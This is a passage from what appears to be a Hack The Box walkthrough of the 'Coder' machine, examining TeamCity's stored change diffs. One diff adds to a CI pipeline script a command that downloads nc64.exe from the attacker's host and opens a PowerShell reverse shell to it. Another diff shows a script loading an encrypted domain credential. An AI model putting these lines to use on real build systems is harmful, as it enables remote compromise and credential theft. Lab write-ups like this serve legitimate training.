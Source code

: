 
In the `system` folder there’s a folder named `changes`:

```

PS C:\programdata\JetBrains\TeamCity\system\changes> ls

    Directory: C:\programdata\JetBrains\TeamCity\system\changes

Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----        11/8/2022   2:18 PM           1707 101.changes.diff
-a----       11/20/2023   8:59 PM            323 201.changes.diff
-a----       11/20/2023   8:59 PM            323 202.changes.diff
-a----       11/20/2023   8:59 PM            323 203.changes.diff
-a----       11/20/2023   9:13 PM            323 204.changes.diff

```

These are changes to the repo. For example, `204.changes.diff` (and all the other recently ones) is the changes that give me a shell:

```

PS C:\programdata\JetBrains\TeamCity\system\changes> type 204.changes.diff
diff --git a/hello_world.ps1 b/hello_world.ps1
index 09724d2..6cd6d20 100755
--- a/hello_world.ps1
+++ b/hello_world.ps1
@@ -1,2 +1,5 @@
 #Simple repo test for Teamcity pipeline
 write-host "Hello, World!"
+
+iwr http://10.10.14.6/nc64.exe -outfile \ProgramData\nc64.exe
+\ProgramData\nc64.exe -e powershell 10.10.14.6 443

```

`101.changes.diff` is from before the box release, and different:

```

PS C:\programdata\JetBrains\TeamCity\system\changes> type 101.changes.diff
diff --git a/Get-ADCS_Report.ps1 b/Get-ADCS_Report.ps1
index d6515ce..a990b2e 100644
--- a/Get-ADCS_Report.ps1
+++ b/Get-ADCS_Report.ps1
@@ -77,11 +77,15 @@ Function script:send_mail {
     [string]
     $subject
   )
+
+$key = Get-Content ".\key.key"
+$pass = (Get-Content ".\enc.txt" | ConvertTo-SecureString -Key $key)
+$cred = New-Object -TypeName System.Management.Automation.PSCredential ("coder\e.black",$pass)
 $emailFrom = 'pkiadmins@coder.htb'
 $emailCC = 'e.black@coder.htb'
 $emailTo = 'itsupport@coder.htb'
 $smtpServer = 'smtp.coder.htb'
-Send-MailMessage -SmtpServer $smtpServer -To $emailTo -Cc $emailCC -From $emailFrom -Subject $subject -Body $message -BodyAsHtml -Priority High
+Send-MailMessage -SmtpServer $smtpServer -To $emailTo -Cc $emailCC -From $emailFrom -Subject $subject -Body $message -BodyAsHtml -Priority High -Credential $cred
 }

diff --git a/enc.txt b/enc.txt
new file mode 100644
```